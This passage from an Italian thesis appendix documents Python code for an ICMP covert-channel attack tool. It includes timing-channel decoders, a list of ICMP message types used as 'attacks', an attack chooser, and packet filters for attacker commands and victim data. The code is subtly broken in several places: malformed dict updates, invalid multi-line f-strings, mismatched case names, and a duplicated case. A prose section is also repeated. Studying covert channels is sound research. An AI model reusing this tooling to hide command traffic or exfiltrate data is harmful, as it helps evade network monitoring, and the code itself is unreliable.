            if layer.getlayer("ICMPv6EchoReply") is None 
                layer= layer.getlayer("ICMPv6EchoRequest")  
            else: 
                layer=layer.getlayer("ICMPv6EchoReply")  
            if not (layer.getfieldval("id")==0 and layer.getfieldval("seq")!=0): 
                data.append(field.to_bytes(2,"big").decode()) 
            elif layer.getfieldval("id")==0 and layer.getfieldval("seq")==1: 
                com.set_threading_Event(event_pktconn)
                return
            else: print("Caso non considetrato")  
    return callback
\end{lstlisting}
\captionof{lstlisting}{Callback del metodo \textbf{v6\_packet\_to\_big}} 
\label{script:appendice:attacksingleton:waitData:callback:v6_packet_to_big} 

\subsubsection{Callback del Timing Covert Channel} 
Gli argomenti in input, richiesti dal metodo, sono: 
\begin{itemize}
    \item Una funzione di callback. questa verrà poi usata per impostare il timer [Code:\ref{script:appendice:attacksingleton:waitData:callback:v6_timing_cc}  line 19] 
    \item Un threading Event; usato per segnalare quando il metodo termina. 
    \item Un timer 
    \item Una lista, usata per memorizzare i dati ricavati dal pacchetto. 
    \item Il tempo di arrivo del pacchetto precedente. 
    \item Il numero di bit che il timing channel comporta.
\end{itemize} 
Dopodichè si definiscono due dizionari: uno conterrà i tempi relativi a un codice, l'altro conterrà tutti i codice creati. 
\footnote{Per esempio supponiamo che al codice 010 venga associato il tempo 15. Se l'intervallo di tempo fra il precedente pacchetto e quello corrente risulterà essere più vicino a 15 secondi; 
si potra codificare quel lasso di tempo come 010.} 
I valori al loro interno vengono stabiliti in questo modo: 
\begin{itemize}
    \item Il tempo da  asscociare a un codice è pari a: un valore minimo (in questo caso 3)+ l'indice del codice + una distanza di sicurezza. 
    Il valore minimo serve per evitare errori siccome un tempo pari a 0 potrebbe essere così adiacente a quello precedente che non verrà rilevato. 
    Mentre la distanza di sicurezza serve per non confondere i codici; siccome ci poptrebbero essere dei ritardi di comunicazione (e quindi un pacchetto potrebbe arrivare dopo 18 secondi e non 15)
    \item Invece i codici associati vengono creati iterando fra 0 e 2 al numero di bit che si vogliono trasmettere. 
    Per esempio se si volessero trasmettere 4 bit; si avranno $2^4=16$ possibili codici che iterando fra 0 e 16, verranno identificati tutti. 
\end{itemize}
Dopodichè procede a ricavare i dati dal pacchetto. 
\vspace{1ex} \newline 
Se il tempo precedente è nullo, verrà inizializzato al tempo corrente e il metodo ritornerà. 
altrimenti procede a calcolare il delta fra gli intervalli di tempo [Code:\ref{script:appendice:attacksingleton:waitData:callback:v6_timing_cc}  line 25]. 
Dopodichè procederà a calcolare il valore assoluto fra la differenza trai il delta e ciascun tempo contenuto nel dizionario. 
E ricaverà il minimo valore calcolato oltre all'indice associatogli [Code:\ref{script:appendice:attacksingleton:waitData:callback:v6_timing_cc}  line 29].
\vspace{1ex} \newline 
Si procede poi a ricavare il codice associato. 
Ciò viene fatto tramite l'indice; che verrà usato per ricavare la chiave che verrà poi usata nel dizionario contenente i codici. 
Infine viene reimpostato il timer; 
infatti se dopo un determinato intervallo di tempo non vengono ricevuti dei pacchetti, il metodo termina. 
Siccome ciò indicherà che non verranno più inviati dei pacchetti. 
\vspace{1ex} \newline 
La funzione di callback è mostrata in [Code:\ref{script:appendice:attacksingleton:waitData:timeoutTimer}]
\newline
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={callback_v4_timing_cc}, emphstyle=\color{red} 
    ,emph={[2]dict_tempi, dict_bit, packet, delta_time, min_value, min_indices},emphstyle={[2]\color{blue}} 
    ,emph={[3]timer_func, event, timer, data, prev_time, num_bit}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def callback_v4_timing_cc(timer_func, event,timer,data,prev_time=None, num_bit=0 ): 
    if num_bit<=0:
        return None   

    DISTANZA_TEMPI=2 #sec
    dict_tempi={} 
    for index in range(2**num_bit): 
        dict_tempi.update(("TEMPO_"+str(index), 3+index*2*DISTANZA_TEMPI))
    dict_bit={ }
    for index in range(2**num_bit):
        dict_bit.update(("TEMPO_"+str(index), index))  

    MINUTE_TIME=0*60+30 #minuti
    MAX_TIME=max([value for _,value in dict_tempi.items()])+5 
    
    def callback(packet):
        nonlocal prev_time, timer,data, event, timer_func
        nonlocal MAX_TIME, MINUTE_TIME  
        if prev_time is None: 
            prev_time=packet.time 
            timer.cancel()
            timer=com.get_timeout_timer(MAX_TIME,timer_func) 
            timer.start() 
            return  
        if packet.time is not None: 
            delta_time=packet.time-prev_time   
            arr={}
            for key,value in dict_tempi.items():
                arr.update((key, abs(delta_time-value)))
            min_value=min([y for _,y in arr]) 
            min_indices = [i for i, v in enumerate(arr) if v[1] == min_value] 
            data.append(dict_bit.get(arr[min_indices[0]][0]))
            prev_time=packet.time
            timer.cancel() 
            if len(data)%8==0: 
                timer=com.get_timeout_timer(MINUTE_TIME,timer_func) 
            else:
                timer=com.get_timeout_timer(MAX_TIME,timer_func) 
            timer.start()
    return callback
\end{lstlisting}
\captionof{lstlisting}{Callback del metodo \textbf{v4\_timing\_channel}} 
\label{script:appendice:attacksingleton:waitData:callback:v4_timing_cc} 

\subsubsection*{Metodo per il timer} 
La funzione che il timer utilizzera, e che potrà essere resettato in [Code:\ref{script:appendice:attacksingleton:waitData:callback:v4_timing_cc}] e [Code:\ref{script:appendice:attacksingleton:waitData:callback:v6_timing_cc}]; 
è definita in questo modo. 
\vspace{1ex} \newline 
In input richiede un threading Event; in questo caso verrà utilizzato per indicare che si è finito di ascoltare il flusso dei dati. 
Ciò viene fatto impostando l'evento come attivato. 
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={}, emphstyle=\color{red} 
    ,emph={[2]},emphstyle={[2]\color{blue}} 
    ,emph={[3]}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def timeout_timing_covertchannel(event_pktconn): 
    com.set_threading_Event(event_pktconn)
    return
\end{lstlisting}
\captionof{lstlisting}{Metodo usato dal timer in \ref{script:appendice:attacksingleton:waitData:callback:v4_timing_cc} e \ref{script:appendice:attacksingleton:waitData:callback:v6_timing_cc} } 
\label{script:appendice:attacksingleton:waitData:timeoutTimer} 

\subsubsection*{Versione che usa il protocollo IPv6} 
Gli argomenti in input, richiesti dal metodo, sono: 
\begin{itemize}
    \item Una funzione di callback. questa verrà poi usata per impostare il timer [Code:\ref{script:appendice:attacksingleton:waitData:callback:v6_timing_cc}  line 19] 
    \item Un threading Event; usato per segnalare quando il metodo termina. 
    \item Un timer 
    \item Una lista, usata per memorizzare i dati ricavati dal pacchetto. 
    \item Il tempo di arrivo del pacchetto precedente. 
    \item Il numero di bit che il timing channel comporta.
\end{itemize} 
Dopodichè si definiscono due dizionari: uno conterrà i tempi relativi a un codice, l'altro conterrà tutti i codice creati. 
\footnote{Per esempio supponiamo che al codice 010 venga associato il tempo 15. Se l'intervallo di tempo fra il precedente pacchetto e quello corrente risulterà essere più vicino a 15 secondi; 
si potra codificare quel lasso di tempo come 010.} 
I valori al loro interno vengono stabiliti in questo modo: 
\begin{itemize}
    \item Il tempo da  asscociare a un codice è pari a: un valore minimo (in questo caso 3)+ l'indice del codice + una distanza di sicurezza. 
    Il valore minimo serve per evitare errori siccome un tempo pari a 0 potrebbe essere così adiacente a quello precedente che non verrà rilevato. 
    Mentre la distanza di sicurezza serve per non confondere i codici; siccome ci poptrebbero essere dei ritardi di comunicazione (e quindi un pacchetto potrebbe arrivare dopo 18 secondi e non 15)
    \item Invece i codici associati vengono creati iterando fra 0 e 2 al numero di bit che si vogliono trasmettere. 
    Per esempio se si volessero trasmettere 4 bit; si avranno $2^4=16$ possibili codici che iterando fra 0 e 16, verranno identificati tutti. 
\end{itemize}
Dopodichè procede a ricavare i dati dal pacchetto. 
\vspace{1ex} \newline 
Se il tempo precedente è nullo, verrà inizializzato al tempo corrente e il metodo ritornerà. 
altrimenti procede a calcolare il delta fra gli intervalli di tempo [Code:\ref{script:appendice:attacksingleton:waitData:callback:v6_timing_cc}  line 25]. 
Dopodichè procederà a calcolare il valore assoluto fra la differenza trai il delta e ciascun tempo contenuto nel dizionario. 
E ricaverà il minimo valore calcolato oltre all'indice associatogli [Code:\ref{script:appendice:attacksingleton:waitData:callback:v6_timing_cc}  line 29].
\vspace{1ex} \newline 
Si procede poi a ricavare il codice associato. 
Ciò viene fatto tramite l'indice; che verrà usato per ricavare la chiave che verrà poi usata nel dizionario contenente i codici. 
Infine viene reimpostato il timer; 
infatti se dopo un determinato intervallo di tempo non vengono ricevuti dei pacchetti, il metodo termina. 
Siccome ciò indicherà che non verranno più inviati dei pacchetti. 
\vspace{1ex} \newline 
La funzione di callback è mostrata in [Code:\ref{script:appendice:attacksingleton:waitData:timeoutTimer}]
\newline
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={cb_v6_timing_cc}, emphstyle=\color{red} 
    ,emph={[2]packet, dict_tempi, dict_bit, delta_time, min_value, min_indices},emphstyle={[2]\color{blue}} 
    ,emph={[3]timer_func, event, timer, data, prev_time, num_bit}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def cb_v6_timing_cc(timer_func, event, timer, data, prev_time=None, num_bit=0):   
    if num_bit<=0:
        return None   
    
    DISTANZA_TEMPI=2 #sec
    dict_tempi={}
    for index in range(2**num_bit): 
        dict_tempi.update(("TEMPO_"+str(index), 3+index*2*DISTANZA_TEMPI))
    dict_bit={ }
    for index in range(2**num_bit):
        dict_bit.update(("TEMPO_"+str(index), index))  

    MINUTE_TIME=0*60+30 #minuti
    MAX_TIME=max([value for _,value in dict_tempi.items()])+5 
    
    def callback(packet):
        nonlocal prev_time, timer, data, event, timer_func
        nonlocal MAX_TIME, MINUTE_TIME  
        if prev_time is None: 
            prev_time=packet.time 
            timer.cancel()
            timer=com.get_timeout_timer(MAX_TIME, timer_func) 
            timer.start() 
            return  
        if packet.time is not None: 
            delta_time=packet.time-prev_time   
            arr={}
            for key,value in dict_tempi.items():
                arr.update((key, abs(delta_time-value)))
            min_value=min([y for _,y in arr]) 
            min_indices = [i for i,v in enumerate(arr) if v[1]==min_value] 
            data.append(dict_bit.get(arr[min_indices[0]][0]))
            prev_time=packet.time
            timer.cancel() 
            if len(data)%8==0: 
                timer=com.get_timeout_timer(MINUTE_TIME,timer_func) 
            else:
                timer=com.get_timeout_timer(MAX_TIME,timer_func) 
            timer.start()
    return callback
\end{lstlisting}
\captionof{lstlisting}{Callback del metodo \textbf{v6\_timing\_channel}} 
\label{script:appendice:attacksingleton:waitData:callback:v6_timing_cc} 


\subsection{Metodo per scegliere la tipologia di attacco}
Siccome la tipologia d'attacco deve poter essere scelta; 
si definisce una funzione che permetta di farlo. 
Ciò verrà fatto in questo modo:
\vspace{1ex} \newline 
Si definisce la variabile \textbf{singleton} che conterrà un'istanza della classe \textit{AttackType} e 
una variabile che conterrà il dizionario degli attacchi (della classe \textit{AttackType}).
\vspace{1ex} \newline 
Dopodichè parte un ciclo while che continuerà fino a quando non si sarà scelta una tipologia di attacco. 
All'interno del ciclo, si stampa il dizionario degli attacchi e successivamente si chiede all'utente di inserire il nome o il codice della tipologia. 
Si controlla successivametne se l'input è valido; 
ciò viene fatto confrontandolo con ogni chiave e ogni valore presente nel dizionario degli attacchi utilizzabili. 
%\vspace{1ex} \newline 
\begin{itemize}
    \item Se viene trovata una sola tipologia di attacco, la si stampa e la si restituisce. 
    \item Se non viene trovata nessuna tipologia di attacco o ne vengono trovate più di una; si chiede all'utente se vuole continuare con la scelta. 
    Nel primo caso il dizionario verrà resettato, nel secondo caso il dizionario verrà aggiornato con le tipologie restituite dalla scelta precedente.  
\end{itemize}
Infine, si controlla se l'utente ha deciso di continuare; nel caso non fosse così la funzione terminerà restituendo \textbf{None}.
\vspace{2ex} 
\begin{lstlisting}[
   language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={choose_attack_function, is_scelta_SI_NO}, emphstyle=\color{red} 
    ,emph={[2]singleton, dict_to_check, result_input, scelta, func_trovate},emphstyle={[2]\color{blue}} 
    ,emph={[3]key,value}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def choose_attack_function():  
    singleton=AttackType()
    dict_to_check=singleton.attack_dict 
    result_input=True
    while True: 
        mymethods.print_dictionary(dict_to_check)
        msg="Scegli il nome o il codice della funzione:\t"
        try:
            scelta=str(input(msg)).lower().strip()
        except Exception as e:
            print(f"choose_attack_function: {e}")
        print("Hai digitato: ",scelta if str(scelta)!="" else "<empty>") 
        func_trovate={}
        for key,value in dict_to_check.items(): 
            if scelta in key or scelta in value: 
                func_trovate[key]=value 
        if len(func_trovate)==1:
            print("Funzione scelta: ", next(iter(func_trovate.items())))
            return next(iter(func_trovate.items()))
        elif len(func_trovate)<1:
            msg="Nessuna funzione trovata. Si vuole continuare? S/N\t" 
            result_input=str(input(msg)).lower().strip()
            dict_to_check=singleton.attack_dict
        elif len(func_trovate)>1: 
            msg="Mutliple funzioni trovate. Si vuole continuare? S/N\t" 
            result_input=str(input(msg)).lower().strip() 
            dict_to_check=func_trovate 
        else:
            raise Exception(f"Unknown case: {len(func_trovate)}")
        if not mymethods.is_scelta_SI_NO(result_input):
            print("Si ssceglie di non continuare")
            return None 
\end{lstlisting}
\captionof{lstlisting}{Scelta tipologia di attacco} 
\label{script:appendice:attacksingleton:chooseAttackFunction} 

\subsection{Classe \textit{AttackType}} %\protect\footnote{I metodi e variabili sono contenuti nella classe \textbf{AttackType}} 
Per inviare o ricevere i dati, sono state sviluppate varie modalità di attacco; 
ognuna di esse sfrutta una diversa tipologia di messaggio ICMP. 
\vspace{1ex} \newline
Ciascun attacco, è presente in un dizionario; 
definito avendo come chiave l'identificativo dell'attacco mentre come valore il suo stesso nome. 
\footnote{Il nome identifica meglio la tipologia di paccetto ICMP utilizzato; inoltre ciascun metodo utilizzato avrà questo stesso nome. 
}
\vspace{2ex} 
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={}, emphstyle=\color{red} 
    ,emph={[2]attack_dict},emphstyle={[2]\color{blue}} 
    ,emph={[3]}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
attack_dict={ 
    "ipv4_1":"ipv4_destination_unreachable"
    ,"ipv4_2":"ipv4_source_quench"
    ,"ipv4_3":"ipv4_redirect"
    ,"ipv4_4":"ipv4_timing_channel_1bit"
    ,"ipv4_5":"ipv4_timing_channel_2bit" 
    ,"ipv4_6":"ipv4_timing_channel_4bit" 

    ,"ipv4_7":"ipv4_time_exceeded"
    ,"ipv4_8":"ipv4_parameter_problem"
    ,"ipv4_9":"ipv4_timestamp_request"
    ,"ipv4_10":"ipv4_timestamp_reply"
    ,"ipv4_11":"ipv4_information_request"
    ,"ipv4_12":"ipv4_information_reply"  

    ,"ipv6_1":"ipv6_destination_unreachable" 
    ,"ipv6_2":"ipv6_packet_to_big" 
    ,"ipv6_3":"ipv6_time_exceeded" 
    ,"ipv6_4":"ipv6_parameter_problem" 
    ,"ipv6_5":"ipv6_timing_channel_1bit" 
    ,"ipv6_6":"ipv6_timing_channel_2bit" 
    ,"ipv6_7":"ipv6_timing_channel_4bit"

    ,"ipv6_8":"ipv6_information_request"
    ,"ipv6_9":"ipv6_information_reply"  
} 
\end{lstlisting}
\captionof{lstlisting}{Dizionario con le tipologie di attacchi utilizzabili} 
\label{script:appendice:attacksingleton:attackDict} 
Nella classe sono presenti inoltre anche dei metodi: 
\begin{itemize}
    \item Un metodo per ricavare, da una stringa, una tipologia di attacco 
    \item Un metodo che stampa tutte glii attacco disponibili
\end{itemize}
\vspace{2ex} 
La tipologia di attacco viene ricavata in questo modo; 
dopo aver passato in input la stringa indicante l'attacco, si itera l'intero dizionario [Code:\ref{script:appendice:attacksingleton:attackDict}] 
e si effettua un confronto fra la stringa passata e i valori presenti in esso. 
In particolare si effettua un confronto fra la stirnga e la chiave e la stringa e il valore memorizzato. 
\vspace{1ex} \newline
Se il confronto risulta positivo, si aggiunge la coppia chiave-valore ad un ulteriore dizionario; 
che verrà restituito, come risultato della funzione, al termine del ciclo di iterazione. 
\vspace{2ex} 
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={get_attack_function}, emphstyle=\color{red} 
    ,emph={[2]list_function_attack, key, val},emphstyle={[2]\color{blue}} 
    ,emph={[3]attack_name, attack_dict}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def get_attack_function(attack_name:str): 
    if not isinstance(attack_name,str) :
        raise Exception(f"Argomenti non corretti")
    try: 
        list_function_attack={}
        for key,val in self.attack_dict.items():
            if str(key)==str(attack_name) or str(val)==str(attack_name):
                list_function_attack.update({key:val})  
        return list_function_attack
    except Exception as e:
        print(f"Exception: {e}") 
        return None
\end{lstlisting}
\captionof{lstlisting}{Ricavando la funzione di attacco} 
\label{script:appendice:attacksingleton:getAttackFunction} 
Per stmapare tutti gli attacchi disponibili si itera il dizionario contenente le tipologie di attacco. 
Il modo in cui si è voluto iterare, ci pèermetterà di ricevere solo le chiavi del dizionario; 
questo verrà utilizzato per rilevare se si tratta di un attacco che utilizza IPv4 o IPv6. 
\vspace{1ex} \newline 
Quindi data la chiave del dizionario si stampa il valore associatogli nel dizionario; 
che risulterà essere il nome dell'attacco stesso.  
\vspace{2ex} 
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={print_available_attacks}, emphstyle=\color{red} 
    ,emph={[2]attack},emphstyle={[2]\color{blue}} 
    ,emph={[3]attack_dict}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def print_available_attacks():
    print("Gli attacchi disponibili sono:")
    for attack in self.attack_dict: 
        try:
            if "ipv4" in attack:
                print(
                    f"\t{attack.replace("ipv4_","")} 
                    -> 
                    {attack_dict[attack].replace("ipv4_","")} (IPv4)"
                )
            elif "ipv6" in attack:
                print(
                    f"\t{attack.replace("ipv6_","")} 
                    -> 
                    {attack_dict[attack].replace("ipv6_","")} (IPv6)"
                )
            else:
                print(
                    f"\t{attack} 
                    -> 
                    {attack_dict[attack]} (Unknown)"
                )
        except Exception as e:
            print(f"Err:\t{attack} -> {attack_dict[attack]}")
            print(f"Errore nella stampa degli attacchi: {e}")
    print("Per scegliere un attacco, usa il nome o il numero corrispondente." \
        "\nEs: per 'destination unreachable' in IPv4, puoi scegliere:" \
        "\n\t*il nome 'ipv4_destination_unreachable'" \
        "\n\t*il codice 'ipv4_3'." \
    )
\end{lstlisting}
\captionof{lstlisting}{Stampando tutti gli attacchi disponibili} 
\label{script:appendice:attacksingleton:printAttacks} 

\subsection{Metodi che restituiscono il filtro associato}

\subsubsection{Da una funzione restituisce il filtro per l'attacco} 
Passata una stringa, rappresentante il \textbf{nome della funzione di attacco usata}; 
ritorna il filtro dei pacchetti appropriato. 
Ciò viene fatto confrontando la stringa con tutti i possibili attacchi effettuabili. 
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={get_filter_attack}, emphstyle=\color{red} 
    ,emph={[2]function_name},emphstyle={[2]\color{blue}} 
    ,emph={[3]ip_dst, checksum}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def get_filter_attack(function_name:str=None, ip_dst=None, checksum=None): 
    if not (is_string(function_name) and is_IPaddr(ip_dst) and is_int(checksum)):
        raise ValueError(f"La funzione passata non una stringa")
    if attack_dict.get(function_name) is None:
        raise ValueError(f"La funzione non presente: {function_name}")
    print("function_name: ", function_name)
    match function_name:
        case "ipv6_packet_to_big": 
            TYPE_PKT_BIG= 2
            return f"icmp6 and (icmp6[0]=={2})" 
        case "ipv4_destination_unreachable": 
            TYPE_DESTINATION_UNREACHABLE=3 
            return f"icmp and (icmp[0]=={3})" 
        case "ipv6_destination_unreachable": 
            TYPE_DESTINATION_UNREACHABLE=1 
            return f"icmp6 and (icmp6[0]=={1})" 
        case "ipv4_source_quench": 
            TYPE_SOURCE_QUENCH=4  
            return f"icmp and (icmp[0]=={4})" 
        case "ipv4_redirect": 
            TYPE_REDIRECT=5
            return f"icmp and (icmp[0]=={5})" 
        case "ipv4_time_exceeded": 
            TYPE_TIME_EXCEEDED=11
            return f"icmp and (icmp[0]=={11})" 
        case "ipv6_time_exceeded": 
            TYPE_TIME_EXCEEDED=3  
            return f"icmp6 and (icmp6[0]=={3})" 
        case "ipv4_parameter_problem": 
            TYPE_PARAMETER_PROBLEM=12  
            return f"icmp and (icmp[0]=={12})" 
        case "ipv6_parameter_problem": 
            TYPE_PARAMETER_PROBLEM=4  
            return f"icmp6 and (icmp6[0]=={4})" 
        case "ipv4_timestamp_request" | "ipv4_timestamp_reply": 
            TYPE_TIMESTAMP_REQUEST=13
            TYPE_TIMESTAMP_REPLY=14
            return f"icmp and (icmp[0]=={13} or icmp[0]=={14})" 
        case "ipv4_information_request" | "ipv4_information_reply": 
            TYPE_INFORMATION_REQUEST=15
            TYPE_INFORMATION_REPLY=16
            return f"icmp and (icmp[0]=={15} or icmp[0]=={16})"  
        case "ipv6_information_request" | "ipv6_information_reply": 
            TYPE_ECHO_REQUEST=128
            TYPE_ECHO_REPLY=129 
            return f"icmp6 and (icmp6[0]=={128} or icmp6[0]=={129})" 
        case "ipv4_timing_cc_1bit"|"ipv4_timing_cc_2bit"|"ipv4_timing_cc_4bit":
            TYPE_ECHO_REQUEST=8
            TYPE_ECHO_REPLY=0
            return f"icmp and (icmp[0]=={8} or icmp[0]=={0})" 
        case "ipv6_timing_cc_1bit"|"ipv6_timing_cc_2bit"|"ipv6_timing_cc_4bit": 
            TYPE_ECHO_REQUEST=128
            TYPE_ECHO_REPLY=129
            return f"icmp6 and (icmp6[0]=={128} or icmp6[0]=={129})" 
\end{lstlisting}
\captionof{lstlisting}{Filtro relativo all'attacco utilizzato} 
\label{script:appendice:attacksingleton:getAttackFilter} 

\subsubsection{Da una funzione restituisce il filtro usato durante la connessione}9
Nel momento in cui il proxy e la vittima si connettono; 
dovranno scambiarsi dei pacchetti. 
Quindi ciascuno di essi deve riuscire a filtrare i messaggi utili alla connessione. 
Per fare ciò, passa in input al metodo una stringa, rappresentante il nome dellafunzione, oltre ad altre variabili. 
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={get_filter_connection}, emphstyle=\color{red} 
    ,emph={[2]function_name},emphstyle={[2]\color{blue}} 
    ,emph={[3]ip_src, checksum, ip_dst, interface}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def get_filter_connection(function_name:str, ip_src, checksum:int, ip_dst, interface): 
    IPv4_ECHO_REQUEST_TYPE=8
    IPv4_ECHO_REPLY_TYPE=0
    IPv6_ECHO_REQUEST_TYPE=128
    IPv6_ECHO_REPLY_TYPE=129 
    if not is_string(function_name):
        raise ValueError(f"La funzione passata non una stringa")
    match function_name: 
        case "conn_from_proxy"|"proxy_update"|"conn_from_victim": 
            if not is_integer(checksum):
                raise ValueError(f"Il checksum passato non un intero")
            if not is_IPaddr(ip_src,ipaddrs): 
                raise ValueError(f"Il proxy passato non ne un IP Address") 
            if ip_src.version==4:
                return f"icmp and 
                    icmp[0]==8 and src {ip_src} and icmp[4:2]={checksum}" 
            elif ip_src.version==6: 
                return f"icmp6 and 
                    icmp6[0]=={128} and src {ip_src} and icmp[4:2]={checksum}" 
            else: print(f"Caso non contemplato: {ip_src.version}")  
        case "data_from_proxy"|"conn_from_attacker"|"command_from_attacker": 
            if not is_IPaddr(ip_dst): 
                raise ValueError(f"La destinazione passato non un IP Address")
            if not is_IPaddr(ip_src): 
                raise ValueError(f"La sorgente passata non un IP Address")
                
            if ip_src.version==4 and ip_dst.version==4:
                return f"icmp and 
                    icmp[0]==8 and src {ip_src} and dst {ip_dst}" 
            elif ip_src.version==6 and ip_dst.version==6:
                return f"icmp6 and 
                    icmp6[0]==128 and src {ip_src} and dst {ip_dst}" 
            else: print(f"Caso non contemplato: {ip_src.version}/{ip_dst.version}") 
        case "data_from_vicitm":
            if not is_IPaddr(ip_src): 
                raise ValueError(f"La sorgente passata non un IP Address")
            if not is_IPaddr(ip_dst): 
                raise ValueError(f"La destinazione passata non un IP Address")

            if ip_src.version==4 and ip_dst.version==4:
                return f"icmp and src {ip_src} and dst {ip_dst}" 
            elif ip_src.version==6 and ip_dst.version==6:
                return f"icmp6 and src {ip_src} and dst {ip_dst}" 
            else: print(f"Caso non contemplato: {ip_src.version}/{ip_dst.version}")  
        case "conn_from_proxy":
            if not is_IPaddr(ip_dst): 
                raise ValueError(f"La destinazione passata non un IP Address") 
            if not is_integer(checksum):
                raise ValueError(f"Il checksum passato non un intero")
                
            if ip_dst.version==4:
                return f"icmp and 
                    icmp[0]==8 and dst {ip_dst} and icmp[4:2]=={checksum}" 
            elif ip_dst.version==6:
                return f"icmp6 and 
                    icmp6[0]==128 and dst {ip_dst} and icmp[4:2]=={checksum}" 
            else: print(f"Caso non contemplato: {ip_src.version}")  
        case "attacker_command"|"victim_conn_from_proxy"|"icmpEcho_dst": 
            if not is_IPaddr(ip_dst): 
                raise ValueError(f"La destinazione passata non un IP Address")
                
            if ip_dst.version==4:
                return f"icmp and 
                    icmp[0]=={IPv4_ECHO_REQUEST_TYPE} and dst {ip_dst}" 
            elif ip_dst.version==6:
                return f"icmp6 and 
                    icmp6[0]=={IPv6_ECHO_REQUEST_TYPE} and dst {ip_dst}" 
            else: print(f"Caso non contemplato: {ip_src.version}")  
\end{lstlisting}
\captionof{lstlisting}{Filtro per la connessione} 
\label{script:appendice:attacksingleton:getConnectionFilter} 

